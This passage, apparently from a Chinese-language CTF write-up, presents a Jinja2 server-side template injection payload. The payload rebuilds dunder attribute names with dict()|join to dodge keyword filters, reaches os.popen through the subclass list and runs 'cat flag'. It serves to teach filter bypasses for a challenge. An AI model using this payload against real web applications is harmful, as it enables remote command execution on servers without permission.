 [![在这里插入图片描述](assets/1698900310-169c4474e1f209ebb80af6893581e571.png)](https://storage.tttang.com/media/attachment/2022/08/14/09fcc953-c713-4036-a2ac-34951ec84705.png)  
我们构造 payload 如下

```plain
{%set a=dict(__cla=a,ss__=a)|join%}
{%set b=dict(__ba=a,se__=a)|join%}
{%set c=dict(__subcla=a,sses__=a)|join%}
{%set d=dict(__in=a,it__=a)|join%}
{%set e=dict(__glo=a,bals__=a)|join%}
{%set h=dict(po=a,pen=a)|join%}
{%print(""[a][b][c]()[133][d][e][h]('cat flag').read())%}
```

